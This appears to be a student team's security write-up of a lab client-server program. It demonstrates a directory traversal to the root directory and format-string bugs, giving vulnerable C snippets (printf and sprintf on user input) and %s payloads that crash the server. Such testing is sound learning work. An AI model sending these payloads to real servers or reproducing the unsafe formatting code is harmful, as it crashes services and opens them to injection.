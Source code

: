 ## Team 2

### Directory Traversal

* We can directly cd into root directory.

```
cd $/
Message: Working directory changed!

ls
total 96
drwxr-xr-x   2 root root  12288 Mar 13 05:08 bin
drwxr-xr-x   4 root root   4096 Mar  6 05:10 boot
drwxr-xr-x  21 root root   4500 Mar 15 08:50 dev
drwxr-xr-x 136 root root  12288 Mar 20 05:10 etc
drwxr-xr-x   2 root root   4096 Apr 12  2016 home
drwxr-xr-x   2 root root      0 Mar 26 18:14 homes
lrwxrwxrwx   1 root root     32 Aug 31  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  18 root root   4096 Feb 22 10:53 lib
drwxr-xr-x   2 root root   4096 Jan 23 05:09 lib64
drwx------   2 root root  16384 Aug 31  2017 lost+found
drwxr-xr-x   3 root root   4096 Aug 31  2017 media
...
```
* This can be used to overwrite the configuration file and thus allows for command injection when the server restarts.

### Format string

* All commands sent by the user are printed first. So we can crash the server by sending a bunch of %s. 
```C
n = read(sock_id_new,internal,sizeof(internal));
printf(internal);
```
```
Client:

%s%s%s%s%s%s%s%s
Error: read failed!
mc02 63 $

Server:

mc02 73 $ ./server 
Segmentation fault (core dumped)
mc02 74 $
```

* The server when starting up, takes a few arguments which are not used. But these arguments are copied using an snprintf command.
```C
char givenArgs[10];
for(int i=1; i<argc; i++)
{
  if(strlen(argv[i]) < 10) 
  {
    sprintf(givenArgs,argv[i]);					
  }
      
      
mc02 75 $ ./server %s%s%s%s
Segmentation fault (core dumped)
mc02 76 $
```
